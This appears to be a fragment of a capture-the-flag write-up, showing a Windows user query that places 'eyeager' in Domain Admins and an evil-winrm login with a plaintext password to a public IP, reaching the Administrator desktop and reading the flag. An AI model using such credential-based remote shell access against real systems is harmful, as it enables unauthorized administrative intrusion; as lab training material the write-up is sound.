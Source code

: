 ```md
Password changeable          3/4/2022 11:42:49 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   4/12/2022 8:54:00 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Users         *Domain Admins
The command completed successfully.

```
User eyeager is in group 'Domain Admins'
```md
┌──(blackninja23㉿arena)-[~/CYSEC]
└─$ evil-winrm -i 54.234.92.201 -u eyeager -p AllFortheLov3ofSh3ll!

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\eyeager\Documents> cd "C:\Users\Administrator\Desktop"
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir
   
   Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/21/2016   3:36 PM            527 EC2 Feedback.website
-a----        6/21/2016   3:36 PM            554 EC2 Microsoft Windows Guide.website
-a----         3/3/2022  11:54 AM             24 flag.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type flag.txt
CYSEC{itz_all_n1ce&34sy}
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 
```
